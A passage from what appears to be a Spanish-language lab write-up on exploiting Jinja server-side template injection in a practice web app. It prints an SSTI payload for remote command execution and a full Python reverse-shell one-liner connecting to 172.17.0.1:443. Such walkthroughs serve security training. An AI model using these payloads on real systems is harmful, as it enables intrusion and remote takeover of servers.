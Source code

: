 Es vulnerable a inyección de plantillas. Vamos a probar un payload tipico para explotar un RCE.

```python
\{\{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() \}\}
```

Si tratamos de enviar eso, podemos ver que recibimos la siguiente respuesta...

![](/assets/images/WebHackingPlayground/img17.png)

El payload es demasiado largo... Si buscamos algo en google al respecto podemos encontrar el siguiente post https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/

En el lo que hace es crear un nuevo objeto de configuración a traves de la URL y despues lo carga para ejecutar el código arbitrario. Vamos a ver como hacerlo.

Lo primero sera urlencodear el comando que queremos ejecutar, yo me estableceré una revshell con python.

```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.17.0.1",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Ese payload lo url encodeamos y lo metemos como parametro get en la petición. de la siguiente forma.

![](/assets/images/WebHackingPlayground/img18.png)
